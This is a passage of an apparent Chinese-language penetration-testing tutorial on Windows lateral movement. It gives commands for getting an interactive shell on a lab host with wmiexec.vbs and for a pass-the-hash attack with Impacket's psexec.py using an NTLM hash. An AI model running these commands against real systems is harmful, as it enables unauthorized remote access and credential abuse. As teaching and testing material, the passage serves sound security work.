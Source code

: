 在弹出的 cmd 窗口中，使用` wmiexec.vbs` 执行如下命令进行验证执行交互式命令。

```
cscript wmiexec.vbs /shell 10.211.55.7
```

如图所示，可以看到获得了一个可交互式的权限。

![截图](0ccf5f8e70f75562c013315c151da16c.png)

### 3.impacket 进行哈希传递攻击

我们可以使用 impacket 里面的 psexec、smbexec、wmiexec、atexec、dcomexec 等脚本利用哈希进行横向移动，以下演示使用 psexec.py 脚本进行哈希传递。

使用 psexec.py 脚本执行如下命令利用哈希进行横向移动获取目标主机的可交互式 shell。

```
python3 psexec.py administrator@10.211.55.7 -hashes 329153f560eb329c0e1deea55e88a1e9:329153f560eb329c0e1deea55e88a1e9
```

如图所示，使用 psexec 哈希传递获得目标主机权限。

![截图](a6d0047e4bf2ae3e715dc95f737af850.png)
